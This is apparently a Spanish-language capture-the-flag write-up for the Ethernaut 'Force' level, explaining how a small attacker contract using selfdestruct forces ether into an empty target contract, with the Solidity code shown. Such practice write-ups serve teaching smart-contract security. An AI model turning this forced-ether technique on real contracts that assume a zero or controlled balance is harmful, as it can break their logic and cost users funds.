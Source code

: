 # 7-Force
## Objetivo
Lograr que el balance del contrato sea mayor a cero
## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
## Análisis del contrato
Es un contrato vacío, no posee constructor, ni variables o funciones.

## Solución
Para resolver este método vamos a utilizar el comando [selfdestruct](https://docs.soliditylang.org/en/develop/introduction-to-smart-contracts.html?#deactivate-and-self-destruct) que poseen todos los smartcontracts.
Este comando envia el balance del contrato que se va a destruir a la dirección que se envíe por parámetro, y borra el código y el almacenamiento del contrato de la EVM (el contrato puede seguir siendo llamado porque forma
parte de la blockchain, pero queda inutilizado y al utilizar sus funciones no devuelve error).

Deployamos el siguiente contrato con una cantidad de ETH mínima
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract hackForce {

  constructor () public payable{}

  function hack() public {
    selfdestruct(Dirección de contrato Force);
  }
}
```
Llamamos a su función hack(), que terminará ejecutando el comando selfdestruct y transferirá los fondos al contrato Force.

Enviamos la instancia y listo!, reto completado.
